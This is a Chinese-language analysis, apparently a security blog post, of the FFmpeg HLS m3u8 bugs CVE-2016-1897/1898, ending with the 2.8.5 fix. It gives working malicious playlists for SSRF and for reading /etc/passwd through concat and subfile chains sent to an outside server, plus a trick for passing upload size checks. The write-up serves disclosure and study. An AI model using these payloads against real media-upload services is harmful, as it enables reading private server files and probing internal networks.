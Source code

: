 # CVE-2016-1897/8 - FFMpeg漏洞分析

**Author:数据流(LeeFly)@伏宸安全实验室**

0x00 前言
=======

* * *

这段时间有不少漏洞突然爆发，就像这几天的ImageMagick漏洞，横扫国内互联网。这一两天在乌云`@Noxxx`首先发了两个大厂商的FFmpeg的漏洞，然后也被其他白帽子陆续提交漏洞。影响范围和严重性虽然没有ImageMagick大，但也有不少大厂商中招，而它们共同之处都是处理文件的通用组件程序。可笑的是这个漏洞在上年五月份左右就被公布，并在国外一些CTF比赛中应用；直至现今国内的大厂商基本也都存在该漏洞。

FFmpeg是一套可以用来记录、转换数字音频、视频，并能将其转化为流的开源计算机程序。功能非常强大，是每个视频网站必不可少的多媒体文件处理程序。

0x01 漏洞概述
=========

* * *

在FFMpeg2.X 由于在解析HTTP Live Streaming流媒体m3u8文件处理不当，可导致SSRF漏洞与任意文件读取漏洞。当网站允许用户上传多媒体文件，并使用FFMpeg进行处理时会触发该漏洞。

这个漏洞有两个CVE编号，分别是CVE-2016-1897和CVE-2016-1898，它们两个的区别在于读取文件的行数，CVE-2016-1897只能读取文件的第一行，而CVE-2016-1898可以读取文件任意行，原理基本一样，这里就一起分析了。

0x02 HLS（HTTP Live Streaming）
=============================

* * *

由于漏洞是出现在解析HLS流媒体文件出的问题，所以我们必须先了解HLS。

HLS（HTTP Live Streaming）是Apple公司开发的一种基于HTTP协议的流媒体通信协议，大多数都应用在PC上和Iphone上。它的基本原理是把一个视频流分成很多个很小很小很小的ts流文件，然后通过HTTP下载，每次下载一点点。在一个开始一个新的流媒体会话时，客户端都会先下载一个m3u8（播放列表 Playlist）文件，里面包含了这次HLS会话的所有数据。

![](http://drops.javaweb.org/uploads/images/9ab383d998c3bf4a783f113e6731dad1be71be16.jpg)

如图所示，有一个主要的m3u8格式Playlist文件，里面可以包含下级的m3u8文件，客户端会再去索引下级的m3u8，继续解析下级的Playlist文件获取最终的TS流文件的http请求地址与时间段。

`http://pl.youku.com/playlist/m3u8?vid=340270152&type=3gphd&ts=1462714824&keyframe=0&ep=dSaSGE6MUssC5ybeiz8bYiXiIiZdXP0O9h2CgdNnAtQnS%2Bm2&sid=746271452251312590fab&token=3319&ctype=12&ev=1&oip=3395898128`

这是youku一个视频的m3u8文件，内容如下：

```
#EXTM3U
#EXT-X-TARGETDURATION:6
#EXT-X-VERSION:2
#EXTINF:6,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=0&ts_end=5.9&ts_seg_no=0&ts_keyframe=1
#EXTINF:0,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=5.9&ts_end=6.367&ts_seg_no=1&ts_keyframe=1
#EXT-X-ENDLIST

```

解析：

*   #EXTM3U 标签是m3u8的文件头，开头必须要这一行
*   #EXT-X-TARGETDURATION 表示整个媒体的长度 这里是6秒
*   #EXT-X-VERSION:2 该标签可有可无
*   #EXTINF:6, 表示该一段TS流文件的长度
*   #EXT-X-ENDLIST 这个相当于文件结束符

这些是m3u8的最基本的标签，而问题就出在FFMpeg去请求TS流文件的时，由于我们可以伪造一个m3u8文件，FFMpeg不会判断里面的流地址，直接请求。

0x03 漏洞原理
=========

* * *

SSRF漏洞：

直接用FFMpeg解析一个多媒体文件

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://192.168.123.100:8080/1.html
#EXT-X-ENDLIST

```

（#EXT-X-MEDIA-SEQUENCE或#EXT-X-TARGETDURATION必须存在任意一个，前者是定义ts流文件的序号。去掉会报错：无效文件）

![](http://drops.javaweb.org/uploads/images/23511a2909030435f1e49f7b2149b77267aed2cd.jpg)

`ffmpeg -i test.m3u8 test.mp4`（也可把m3u8格式改成其他后缀，ffmpeg会自动识别为HLS流文件）

![](http://drops.javaweb.org/uploads/images/c75f722d74a1a66732ee5221a0d98eba98ab95de.jpg)

直接发起了http请求，这就造成一个SSRF。

结合SSRF任意文件读取：

FFMpeg支持很多扩展协议，其中的concat:协议可以合并多个流URL，官方称为Physical concatenation protocol

这样可以合并多个URL`concat:URL1|URL2|...|URLN`

新建一个主HLS文件h.m3u8在web服务器

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://xxx/test.txt|http://xxx/test.txt （这两个txt都是m3u8,后缀可以随便改，ffmpeg会自动识别）
#EXT-X-ENDLIST

```

再创建一个下级的m3u8文件 test.txt，最终的请求会引到最下级的m3u8文件,也就是这个test.txt

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://xxx.com/?

```

再用ffmpeg处理test.m3u8

```
#EXTM3U
#EXT-X-TARGETDURATION:6
#EXTINF:10.0,
concat:http://xxx/h.m3u8
#EXT-X-ENDLIST

```

![](http://drops.javaweb.org/uploads/images/635af3b464995f697787bac439b2d11266451445.jpg)

提示当读取第一段的时候出错，URL是`http://xxx/?#EXTM3U`，但我们建立的那个下级的m3u8文件 test.txt是`http://xxx.com/?`，多出来的“`#EXTM3U，`”这部分是用concat协议合并的那个txt，`http://xxx/test.txt`的第一行；而ffmpeg支持多种协议获取输入流，http、ftp、smb、file等，既然用concat协议可以读取文件的第一行，那把http换成file协议就可以读取本地文件了，漏洞就出在这里。

主m3u8文件改成`concat:http://xxx/test.txt|file:///etc/passwd`，再请求就能读取到passwd文件的第一行，当然也可以读取内网网站的信息。

![](http://drops.javaweb.org/uploads/images/fc009ae85f282f0df435b63bd63da4868c6d1b99.jpg)

但这样就只能读取一行，意义不大。但FFMpeg支持一个截取数据流片段的功能：subfile。用法：`subfile,,start,153391104,end,268142592,,:/media/dvd/VIDEO_TS/VTS_08_1.VOB`

Start后是开始截取的偏移量，以字节为单位，end是结束的偏移量。

既然可以截取数据流就可以利用subfile获取比较完整的文件了。测试时候一次最多只能截取32字节，所以要继续用concat合并多个数据流片段。

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://198.56.193.29:8080/test.txt|subfile,,start,0,end,31,,:file:///etc/passwd|subfile,,start,32,end,63,,:file:///etc/passwd|subfile,,start,64,end,95,,:file:///etc/passwd|subfile,,start,96,end,127,,:file:///etc/passwd|subfile,,start,127,end,158,,:file:///etc/passwd
#EXT-X-ENDLIST

```

这样就可以读取任意文件的任意内容

![](http://drops.javaweb.org/uploads/images/3771a177be181f524f27a8e186fdb3913f5e906c.jpg)

0x04 绕过大小检测
===========

* * *

之前的ImageMagick漏洞因为有些网站有文件大小检测而无法攻击，在这个漏洞中的测试我也发现一些网站有对上传视频文件的大小限制。这里有方法可以扩充文件大小。

![](http://drops.javaweb.org/uploads/images/97e7fa44b663635a212be0dec594a086e4e44a5b.jpg)

直接扩充#EXTINF，这个标签前面说过，是代表TS流文件的时间长度，可以无限扩充，直到符合大小为止，仍可正常解析。

0x05 漏洞影响
=========

* * *

我测试了国内的很多云盘与视频网站，都存在包括@Noxxx先提交的百度云盘，360原盘等，后来我测试了ku6，爱奇艺，56，搜狐等等都存在该问题，爱奇艺的我已经提交了，另外发现的很多也就没必要再提交了，刷洞没意思，提交一个案例警示一下就足够了。

以下总结一下在乌云报告过的FFMpeg漏洞：[百度云盘文件读取/SSRF](http://www.wooyun.org/bugs/wooyun-2010-0205320)、[360云盘文件读取/SSRF](http://www.wooyun.org/bugs/wooyun-2010-0205343)、[爱奇艺主站某处FFmpeg漏洞可导致任意文件读取](http://www.wooyun.org/bugs/wooyun-2010-0205669)、[56视频FFmpeg解析漏洞导致SSRF](http://www.wooyun.org/bugs/wooyun-2016-0205699)、[搜狐视频ffmpeg漏洞可文件读取/SSRF](http://www.wooyun.org/bugs/wooyun-2016-0205709)、[盛大某站存在SSRF可读取本地文件&探测内网](http://www.wooyun.org/bugs/wooyun-2016-0205719)等等

总的来说威胁还是蛮大的，很多大型厂商都中枪。之前上传图片会被搞，现在上传视频也会被搞。这些处理文件的通用程序真是黑客的乐土啊。

0x06 漏洞修复
=========

* * *

目前该漏洞已在FFMpeg**2.8.5**中修复，请广大用户马上升级。